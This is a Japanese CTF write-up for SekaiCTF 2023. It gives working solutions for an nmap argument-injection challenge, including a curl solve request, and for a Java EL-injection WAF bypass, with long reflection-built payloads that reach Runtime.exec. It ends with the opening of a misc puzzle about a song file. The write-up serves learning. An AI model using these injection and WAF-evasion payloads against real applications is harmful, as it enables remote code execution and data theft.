

# SekaiCTF 2023 Writeup

SekaiCTF 2023（<https://ctftime.org/event/1923/>）に参加しました。  
土, 26 8月 2023, 01:00 JST — 月, 28 8月 2023, 01:00 JST

OnePaddingというチームで参加しましたが、問題が難しくて私は一問も解けなかったので、少しずつ復習します。

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [web/Scanner Service](#webscanner-service)
- [web/Frog-WAF](#webfrog-waf)
- [misc/I love this world](#misci-love-this-world)
- [misc/QR God](#miscqr-god)

<!-- /code_chunk_output -->

## web/Scanner Service

146 solves / 100 points

Rubyで書かれたアプリケーションで、入力した`ip:port`に対してnmapが実行される。

- src/app/controllers/scanner.rb

```rb:scanner.rb
<SNIP>
post '/' do
    input_service = escape_shell_input(params[:service])
    hostname, port = input_service.split ':', 2
    begin
      if valid_ip? hostname and valid_port? port
        # Service up?
        s = TCPSocket.new(hostname, port.to_i)
        s.close
        # Assuming valid ip and port, this should be fine
        @scan_result = IO.popen("nmap -p #{port} #{hostname}").read
      else
        @scan_result = "Invalid input detected, aborting scan!"
      end
    rescue Errno::ECONNREFUSED
      @scan_result = "Connection refused on #{hostname}:#{port}"
    rescue => e
      @scan_result = e.message
    end

    erb :'index'
  end
<SNIP>
```

また、入力値に対して、エスケープ処理及び正しいip、portの形式かを確認している。

- src/app/helper/scanner_helper.rb

```rb:scanner_helper.rb
def valid_port?(input)
  !input.nil? and (1..65535).cover?(input.to_i)
end

def valid_ip?(input)
  pattern = /\A((25[0-5]|2[0-4]\d|[01]?\d{1,2})\.){3}(25[0-5]|2[0-4]\d|[01]?\d{1,2})\z/
  !input.nil? and !!(input =~ pattern)
end

# chatgpt code :-)
def escape_shell_input(input_string)
  escaped_string = ''
  input_string.each_char do |c|
    case c
    when ' '
      escaped_string << '\\ '
    when '$'
      escaped_string << '\\$'
    when '`'
      escaped_string << '\\`'
    when '"'
      escaped_string << '\\"'
    when '\\'
      escaped_string << '\\\\'
    when '|'
      escaped_string << '\\|'
    when '&'
      escaped_string << '\\&'
    when ';'
      escaped_string << '\\;'
    when '<'
      escaped_string << '\\<'
    when '>'
      escaped_string << '\\>'
    when '('
      escaped_string << '\\('
    when ')'
      escaped_string << '\\)'
    when "'"
      escaped_string << '\\\''
    when "\n"
      escaped_string << '\\n'
    when "*"
      escaped_string << '\\*'
    else
      escaped_string << c
    end
  end

  escaped_string
end
```

正規表現でオクテットを見ているので、ipは正しい形式じゃないとダメそう。  
Rubyでは、input.to_iは先頭から数値部分のみを返すため、portは以下のような値でも通る。

```text
1337abcABC
```

後は、`nmap -p #{port} #{hostname}`のportにコマンドインジェクションするだけ。  
なのだが、使えそうなのは`=,/.!%09:+?%^[]~–`ここら辺のみ。（%09はタブ）

nmapのオプションを調べると、`-iL`でローカルのファイルを読み込むことができる。

- <https://nmap.org/book/man-briefoptions.html>

また、フラグファイルは`/flag-<32桁のランダム文字列>.txt`であるが、不明な文字は「?」を使うことで回避できる。（どこかのCTFでやってたのでこの挙動は知ってた。）
ローカルで実行すると、標準エラー出力ではあるが、ファイルの中身を出力することができる。

```bash
$ nmap -p 1337 -iL /flag-????????????????????????????????.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-29 13:11 UTC
Failed to resolve "SEKAI{7357_fl46}".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.10 seconds
```

後は、標準エラー出力の内容を標準出力に出せれば解ける。
（競技中はここまでで手詰まり。）  
nmapのオプションには、`-oN`があり、`/dev/stdout`を使うことで標準出力に全て出力することができるらしい。

```bash
$ nmap -p 1337 -iL /flag-????????????????????????????????.txt -oN /dev/stdout 2>/dev/null
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-29 13:22 UTC
# Nmap 7.92 scan initiated Tue Aug 29 13:22:08 2023 as: nmap -p 1337 -iL /flag-2e025061da544fe4e70bae0d6658a0f4.txt -oN /dev/stdout
Failed to resolve "SEKAI{7357_fl46}".
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.02 seconds
# Nmap done at Tue Aug 29 13:22:08 2023 -- 0 IP addresses (0 hosts up) scanned in 0.02 seconds
```

- 解法

```bash
$ curl -X POST --data-binary 'service=127.0.0.1:1337%09-iL%09/flag-????????????????????????????????.txt%09-oN%09/dev/stdout' http://35.231.135.130:31759/ -s | grep SEKAI{
Failed to resolve "SEKAI{4r6um3n7_1nj3c710n_70_rc3!!}".
```

- 余談

`if`が使えれば、`if  [ 1 ];  then  echo  CONDITION;  fi`のも使えるかなと思ったが使えなかった。
`!!`のようにコマンドの実行履歴を使えないかと思ったが、そもそも複数コマンド実行できないとダメな気がする。

## web/Frog-WAF

29 solves / 413 points

JavaのSpring Frameworkが使われている。  
また、リクエストパラメータに対して、パターンマッチングのWAFで判定をしている。

- waf/AttackTypes.java

```java:AttackTypes.java
<SNIP>
public enum AttackTypes {
    SQLI("\"", "'", "#"),
    XSS(">", "<"),
    OS_INJECTION("bash", "&", "|", ";", "`", "~", "*"),
    CODE_INJECTION("for", "while", "goto", "if"),
    JAVA_INJECTION("Runtime", "class", "java", "Name", "char", "Process", "cmd", "eval", "Char", "true", "false"),
    IDK("+", "-", "/", "*", "%", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9");

    @Getter
    private final String[] attackStrings;

    AttackTypes(String... attackStrings) {
        this.attackStrings = attackStrings;
    }

}
```

送信されるパラメータを確認すると、`country`以外は使えなさそう。  
他のパラメータは、`^[A-Z][a-z]{2,}$`を満たす必要がある。

`"country":"${[].getClass()}"`を指定すると、以下のようなレスポンスが帰ってくる。

```json
{"violations":[{"fieldName":"country","message":"class java.util.ArrayList is not a valid country"}]}
```

`${[].getClass()}`ではなく、`class java.util.ArrayList`になっている。  
このことから、ELインジェクションができることが分かる。

あとは、禁止されている文字を使わないようにコードを作れれば良い。

- 数値の生成

数値が直接は使えないので、以下のようにすると数値を作れる。

```java
[[],[],[]].size() // = 3
```

- 文字列の生成

`getMethods()`や`substring()`を使えば作れる。`getDeclaredMethods()`も可。  
`getMethods()`によって文字列が取得できるので、そこから必要な文字を抽出すればいいっぽい。そしてその後に`concat()`で結合する。  
大文字小文字は、`toUpperCase()`や`toLowerCase()`を使う。

具体的には以下のような感じ。

```java
// [].getClass().getMethods()[<数値>].toString().substring(<数値>,<数値>)
[].getClass().getMethods()[[[],[],[]].size()].toString().substring([[],[]].size(),[[],[],[]].size())
```

一旦ローカルでWAFを外した状態で動作するコードを作成する。  
reflectionを使っていろいろ試したところ、以下は上手く動いた。  
ただし、レスポンスに出力される値についてはbyte配列から文字列への変換が必要そう。  
`curl`で外部に出力できれば問題はなさそうではある。

- <https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md>

```java
${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('ls')}
// -> Process[pid=520, exitValue=\"not exited\"]

${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('ls').getInputStream().readAllBytes()}
// -> [B@55f9f6cb

${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('ls').getInputStream().readAllBytes()[0]}
// -> 98
```

- パーツ生成

使えそうな文字列を探す。

```java
${[].getClass().getClass().getMethods()[0]}
// -> public static java.lang.Class java.lang.Class.forName(java.lang.String,boolean,java.lang.ClassLoader) throws java.lang.ClassNotFoundException

${[].getClass().getClass().getDeclaredMethods()[0]}
// -> private void java.lang.Class.checkPackageAccess(java.lang.SecurityManager,java.lang.ClassLoader,boolean)
```

`'`や数値、`java`等の禁止されている文字列を置き換える。

 文字 | 置き換え後
 -- | --
''.getClass() | `[].getClass().getClass()`
forName | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
java.lang. | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
R | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[]].size(),[[],[]].size()).toUpperCase()`
u | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[]].size(),[[],[]].size())`
n | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
t | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())`
i | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size())`
m | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
e | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size())`
l | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size())`
s | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size())`

```java
[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[]].size(),[[],[]].size()).toUpperCase()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[]].size(),[[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size()))
// -> java.lang.Runtime

[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size()))
// -> ls
```

以下のようなjsonデータを送信するとProcess IDが出力されるので、コマンドは実行されていそう。

```json
{"firstName":"Test","lastName":"Test","description":"Test","country":"${[].getClass().getClass()[[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())]([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[]].size(),[[],[]].size()).toUpperCase()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[]].size(),[[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size()))).getMethods()[[[],[],[],[],[],[]].size()].invoke(null).exec([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size()))).getInputStream().readAllBytes()[[].size()]}"}
```

```json
{"violations":[{"fieldName":"country","message":"98 is not a valid country"}]}
```

ループさせてbyteを出力させるスクリプトを書いても良さそうだが、Base64を使って一度で出力する方法があるっぽい。  
（`new String`を使ってもできそうな気がするが調べても分からなかった。）

目指す形は以下の通り。  
`Base64.getEncoder().encodeToString(bytes)`を実行することと同じ。

```java
${[].getClass().getClass().getMethods()[2].invoke(null,'java.util.Base64').getMethods()[6].invoke(null).getClass().getMethods()[4].invoke([].getClass().getClass().getMethods()[2].invoke(null,'java.util.Base64').getMethods()[6].invoke(null),<byte配列>)}
```

 文字 | 置き換え後
 -- | --
java.utils. | `[].getClass().getMethods()[[[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
B | `[].getClass().getMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size()).toUpperCase()`
a | `[].getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[]].size(),[[],[],[],[],[]].size())`
s | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size())`
e | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size())`
6 | `[[],[],[],[],[],[]].size()`
4 | `[[],[],[],[]].size()`
f | `[].getClass().getClass().getDeclaredMethods()[[[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
l | `[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size())`
g | `[].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())`
c | `[].getClass().toString().substring([].size(),[[]].size())`
space | `[].getClass().toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())`

コードを組み立てて、jsonを送ると結果がBase64エンコードされた状態で返ってきた。

```json
{"firstName":"Test","lastName":"Test","description":"Test","country":"${[].getClass().getClass().getMethods()[[[],[]].size()].invoke(null,[].getClass().getMethods()[[[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size()).toUpperCase()).concat([].getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[]].size(),[[],[],[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size())).concat([[],[],[],[],[],[]].size()).concat([[],[],[],[]].size())).getMethods()[[[],[],[],[],[],[]].size()].invoke(null).getClass().getMethods()[[[],[],[],[]].size()].invoke([].getClass().getClass().getMethods()[[[],[]].size()].invoke(null,[].getClass().getMethods()[[[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size()).toUpperCase()).concat([].getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[]].size(),[[],[],[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size())).concat([[],[],[],[],[],[]].size()).concat([[],[],[],[]].size())).getMethods()[[[],[],[],[],[],[]].size()].invoke(null),[].getClass().getClass()[[].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())]([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[]].size(),[[],[]].size()).toUpperCase()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[]].size(),[[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[]].size(),[[],[],[]].size())).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getClass().getDeclaredMethods()[[].size()].toString().substring([[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[]].size()))).getMethods()[[[],[],[],[],[],[]].size()].invoke(null).exec([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[]].size(),[[],[],[],[]].size()).concat([].getClass().getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[]].size()))).getInputStream().readAllBytes())}"}
```

```json
{"violations":[{"fieldName":"country","message":"YmluCmJvb3QKZGV2CmV0YwpmbGFnLTkyNzFlMDAzZjk4MGEwMWVkNmIzOWYyODQ0YmQ0NGYxLnR4dApob21lCmxpYgpsaWI2NAptZWRpYQptbnQKb3B0CnByb2MKcm9vdApydW4Kc2JpbgpzcnYKc3lzCnRtcAp1c3IKdmFyCg== is not a valid country"}]}
// -> 
// bin
// boot
// dev
// etc
// flag-9271e003f980a01ed6b39f2844bd44f1.txt
// home
// lib
// lib64
// media
// mnt
// opt
// proc
// root
// run
// sbin
// srv
// sys
// tmp
// usr
// var
```

後はフラグを取得して完了。  
ちなみに記号は`Character.toChars(int)`を呼び出すことで生成できるみたい。  
記号以外も生成はできるが、その分ペイロードが長くなる。

```java
[].getClass()['forName']('java.lang.Character').getMethods()[39].invoke(null, codepoint)[0]
```

```java
[].getClass()[(([].getClass().getMethods()[[].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[],[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[],[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[],[],[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()))).concat(([].getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).toUpperCase()).concat(([].getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getMethods()[[[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getMethods()[[[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())))]((([].getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()))).concat(([].getClass().getMethods()[[].size()].toString().substring([[],[],[],[],[]].size(),[[],[],[],[],[],[]].size())).toUpperCase()).concat(([].getClass().getMethods()[[].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[],[],[]].size()].toString().substring([].size(),[].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[],[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())).concat([].getClass().getMethods()[[[],[],[],[],[],[],[],[],[],[]].size()].toString().substring([[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size(),[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())))).getMethods()[[[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size()].invoke(null, [[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[],[]].size())[[].size()]
// -> *
```

- Flagの取得

`cat <Flagファイル名>`を実行する。長いので割愛。  
`cat flag*`だと値が取得できなかったのでフルファイル名で確認した。

- 所感

復習として手作業で組み立ててみたが、時間がかかりすぎたのでスクリプトを書けばよかった。

## misc/I love this world

166 solves / 100 points

SVPファイルが配られる。  
Synthesizer V Studio<https://dreamtonics.com/synthesizerv/>等で開くと以下のような画面が出力される。



よく見ると、`SEKAI{がぼくわすきなんだ}`と出力されていることが分かる。  
が、これはフラグではないらしい。

```text
No romanization or Japanese translation is needed to solve the challenge. The flag you find will satisfy the flag regex. The flag in Japanese is a fake flag.
```

関係がありそうな、元データのlryricsとphonemesを抽出する。

```text
"lyrics": "\u304d", "phonemes": "eh f",
"lyrics": "\u307f", "phonemes": "eh l",
"lyrics": "\u3092", "phonemes": "ey",
"lyrics": "\u304a", "phonemes": "jh iy",
"lyrics": "\u3082", "phonemes": "k ow l ax n",
